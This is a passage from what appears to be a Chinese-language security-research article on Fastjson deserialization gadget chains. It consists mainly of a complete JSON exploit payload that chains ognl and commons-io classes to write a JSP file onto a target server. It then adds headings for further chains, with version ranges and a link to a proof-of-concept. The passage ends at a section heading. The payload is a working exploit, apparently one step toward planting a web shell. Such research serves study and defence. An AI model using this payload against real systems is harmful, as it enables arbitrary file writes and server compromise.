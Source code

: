 ```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker666.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-9f9dbf0c74b713a778719ef390a1683d50459a0e.png)

### 5.2.3 ognl+commons-io+aspectjtools+commons-codec组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> [https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26\_ognl\_io\_write\_4.java](https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26_ognl_io_write_4.java)

5.3 xalan+dom4j+commons-io（1.2.73&lt;=version&lt;=1.2.80）
---------------------------------------------------------

### 5.3.1 xalan+dom4j+commons-io（2.0~2.6版本）

